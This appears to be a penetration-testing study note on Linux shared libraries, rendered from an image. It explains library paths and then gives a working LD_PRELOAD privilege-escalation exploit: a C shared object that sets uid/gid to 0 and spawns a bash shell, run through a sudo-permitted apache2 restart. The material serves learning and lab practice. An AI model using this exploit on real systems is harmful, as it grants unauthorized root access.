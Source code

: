 * Shared libraries:

    * 2 types of libraries in Linux - static libraries (.a file) and dynamically linked shared object libraries (.so file)

    * There are multiple methods for specifying the location of dynamic libraries - ```-rpath``` or ```-rpath-link``` flags when compiling a program, using env variables ```LD_RUN_PATH``` or ```LD_LIBRARY_PATH```, placing libraries in ```/lib``` or ```/usr/lib```, or specifying another directory containing libraries within ```/etc/ld.so.conf``` config file

    * Also, ```LD_PRELOAD``` env var can load a library before executing a binary, and its functions are given more preference

    ```sh
    # view shared objects required by a binary using ldd
    ldd /bin/ls

    # we can use the LD_PRELOAD var for privesc
    # for this we need user with sudo priv

    sudo -l
    # user has rights to restart Apache service as root, but it is not in GTFObins
    # env_keep+=LD_PRELOAD is set however
    # we can use that to run a custom shared library file

    vim root.c
    # exploit code

    gcc -fPIC -shared -o root.so root.c -nostartfiles

    # privesc to root
    sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
    ```

    ```c
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    #include <unistd.h>

    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }
    ```
